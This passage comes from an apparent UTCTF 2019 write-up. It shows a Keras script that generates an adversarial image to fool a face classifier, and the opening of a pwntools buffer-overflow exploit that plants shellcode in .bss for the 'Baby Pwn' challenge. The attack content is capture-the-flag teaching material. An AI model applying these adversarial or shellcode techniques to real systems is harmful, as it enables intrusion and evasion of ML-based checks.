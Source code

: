 ```python


model_input_layer = model.layers[0].input
model_output_layer = model.layers[-1].output

cost_function = model_output_layer[0][GOAL_IND]
gradient_function = K.gradients(cost_function, model_input_layer)[0]
grab_cost_and_gradients_from_model = K.function([model_input_layer, K.learning_phase()], [cost_function, gradient_function])

learning_rate = 0.1
cost = 0.0

while cost < 0.65:
    cost, gradients = grab_cost_and_gradients_from_model([hacked_image, 0])

    hacked_image += np.sign(gradients) * learning_rate

    hacked_image = np.clip(hacked_image, -1.0, 1.0)

    print("value: {:.8}%".format(cost * 100))

hacked_image = hacked_image.reshape((32,32,3))
img = array_to_img(hacked_image)
img.save('./hacked.png')
```

And here is the final image:

<img style="image-rendering: pixelated;image-rendering: -moz-crisp-edges;image-rendering: crisp-edges;" src="/blog/2019-03-11-utctf-writeup/FaceSafe/hacked.png"/>

flag: `utflag{n3ur4l_n3t_s3cur1ty_b4d_p4d1ct4b1l1ty}`

# Baby Pwn - 650pts

## Problem

`nc stack.overflow.fail 9000`

by hk

[babypwn](/blog/2019-03-11-utctf-writeup/Baby Pwn/babypwn)

## Solution

Standard pwn challenge. Write shellcode to `.bss` and jump there using the buffer overflow.

Here's the script:

```python
from pwn import *
import sys
argv = sys.argv

DEBUG = True
BINARY = './babypwn'

context.binary = BINARY

if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
```